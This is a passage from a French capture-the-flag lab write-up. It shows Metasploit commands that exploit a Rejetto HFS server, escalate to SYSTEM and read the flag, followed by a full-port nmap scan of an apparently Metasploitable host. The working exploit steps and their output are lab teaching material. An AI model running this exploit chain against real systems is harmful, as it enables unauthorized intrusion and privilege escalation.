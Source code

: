 Ensuite avec `msfconsole`, on a configuré et lancé l'exploit de la manière suivante :

``````shell
msfconsole
use exploit/windows/http/rejetto_hfs_exec		//choix du module
set rhost 10.10.40.13							//set l'adresse de la victime
show options 									//vérifier la configuration
exploit											//lancement de l'attaque
``````

Suite à l'exécution, on peut remarquer qu'on est sur la machine.

``````shell
sysinfo 										//vérifie sur quelle machine on est
getuid											//accès avec les privilèges Administrator
getsystem										//escalade de privilèges en système
ls												//affiche le contenu du répertoire
	
cat flag.txt									//affiche le contenu du fichier flag.txt
# AST16{Ping_or_no_ping_thats_the_question}
``````

Le flag de cette machine est : `AST16{Ping_or_no_ping_thats_the_question}`.

> Source : https://subscription.packtpub.com/book/networking_and_servers/9781786463166/1/ch01lvl1sec20/vulnerability-analysis-of-hfs-2-3



#### Host 10.10.40.85

``````shell
#Scan des ports avec 
nmap -sV -p0-65535 10.10.40.85

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-16 09:44 BST
Nmap scan report for 10.10.40.85
Host is up (0.019s latency).
Not shown: 65505 closed ports
PORT      STATE    SERVICE      VERSION
0/tcp     filtered unknown
21/tcp    open     ftp          vsftpd 2.3.4
22/tcp    open     ssh          OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open     telnet       Linux telnetd
25/tcp    open     smtp         Postfix smtpd
53/tcp    open     domain       ISC BIND 9.4.2
80/tcp    open     http         Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp   open     rpcbind      2 (RPC #100000)
139/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open     exec         netkit-rsh rexecd
513/tcp   open     login?
514/tcp   open     shell        Netkit rshd
1099/tcp  open     rmiregistry?
1524/tcp  open     bindshell    Metasploitable root shell
2049/tcp  open     nfs          2-4 (RPC #100003)
2121/tcp  open     ftp          ProFTPD 1.3.1
3306/tcp  open     mysql        MySQL 5.0.51a-3ubuntu5
3632/tcp  open     distccd      distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open     postgresql   PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open     vnc          VNC (protocol 3.3)
6000/tcp  open     X11          (access denied)
6667/tcp  open     irc          UnrealIRCd
6697/tcp  open     irc          UnrealIRCd
8009/tcp  open     ajp13        Apache Jserv (Protocol v1.3)
8180/tcp  open     http         Apache Tomcat/Coyote JSP engine 1.1
8787/tcp  open     drb          Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
32991/tcp open     unknown
``````